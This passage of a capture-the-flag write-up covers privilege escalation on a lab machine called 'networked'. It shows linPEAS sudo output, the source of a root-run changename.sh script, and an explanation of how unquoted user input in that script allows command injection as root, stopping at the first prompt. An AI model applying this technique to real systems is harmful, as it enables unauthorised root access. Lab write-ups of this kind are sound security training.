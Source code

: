 Once we log in, following our standard approach, we can run linPEAS looking for possible privilege escalation vectors.    
After we run linPEAS notice that user guly has the following sudo capability:
```
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d                                                                                                                                                                            
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                           
Matching Defaults entries for guly on networked:                                                                      
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLL
ATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:                                                                
    (root) NOPASSWD: /usr/local/sbin/changename.sh         
```
Now, again, we need to analyse another script and see how we can hijack the normal execution flow.  
If we open /usr/local/sbin/changename.sh we can see the following content:
```
[guly@networked ~]$ cat /usr/local/sbin/changename.sh
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done

/sbin/ifup guly0
```
Now, if we inspect the code, we can notice that echo $var=$x is not wrapped in quotes, since $x is written from user input, if we write a space and a command we will be able to execute that command as root.
Here's a simple example of this command escaping
```
[root@kali www ]$ var=test                                                    
[root@kali www ]$ echo $var date  
test date
```
Now we can do the same with the real executable, and hopefully gain a shell as root:
```
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh                                                                                                                                                                                       
interface NAME:                                                                                                                                                                                                                              
```
